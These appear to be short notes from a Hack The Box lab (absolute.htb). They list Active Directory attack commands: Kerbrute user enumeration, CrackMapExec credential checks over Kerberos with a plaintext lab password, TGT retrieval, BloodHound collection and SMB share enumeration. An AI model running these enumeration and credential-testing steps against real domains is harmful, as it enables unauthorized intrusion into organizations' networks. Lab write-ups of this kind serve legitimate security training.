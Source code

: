 - Kerbrute
   - set sys date to domain date
	```
	sudo ntpdate dc.absolute.htb 
	```
   - check user valid with users.txt
	```
	./kerbute userenum --dc dc.absolute.htb -d absolute.htb -o users.txt
	```
  - check user validate (-k to use Kerberos)
	```
	cme smb 10.10.11.181 -k -u d.klay -p Darkmoonsky248girl
    ```
  - generate access token
   ```
	getTGT.py absolute.htb/d.klay
	 ```
   - blood hound scrape
   ```
   KRB5CCNAME=d.klay.ccache ./bloodhound.py -k -dc dc.absolute.htb -ns 10.10.11.181 -c all -d absolute.htb -u d.klay
     ```
   - Scan shares
   ```
   cme smb 10.10.11.181 -u d.klay -p Darkmoonsky248girl -k --shares
     ```
     
   